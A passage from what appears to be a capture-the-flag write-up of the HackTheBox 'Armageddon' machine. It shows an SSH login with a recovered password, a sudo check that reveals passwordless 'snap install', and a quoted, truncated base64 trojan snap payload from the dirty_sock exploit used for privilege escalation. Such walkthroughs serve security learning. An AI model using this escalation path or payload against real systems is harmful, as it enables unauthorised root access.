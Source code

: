 That was easy! Let's try SSH now we have another password:

```text
└─# ssh brucetherealadmin@10.10.10.233                                                                        
brucetherealadmin@10.10.10.233's password: 
Last failed login: Wed Jul 28 22:16:23 BST 2021 from 10.10.15.5 on ssh:notty
There were 2 failed login attempts since the last successful login.
Last login: Wed Jul 28 18:37:47 2021 from 10.10.14.83
[brucetherealadmin@armageddon ~]$ 
```

We're in at last. Let's grab the user flag:

```text
[brucetherealadmin@armageddon ~]$ cat user.txt 
<HIDDEN>
```

There's a few things I check before grabbing an enumeration script like LinPEAS, first is sudo permissions:

```text
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

## Dirty Sock

We found our escalation path straight away! So bruce can run snap install as root with no password. GTFOBins shows us how to create our own malicious snap package [here](https://gtfobins.github.io/gtfobins/snap/). An easier option is to use the script [here](https://github.com/initstring/dirty_sock) which means we won't have to install fpm.

Within the the dirty_sockv2 script there is this code block:

```text
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
<SNIP>
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')
```
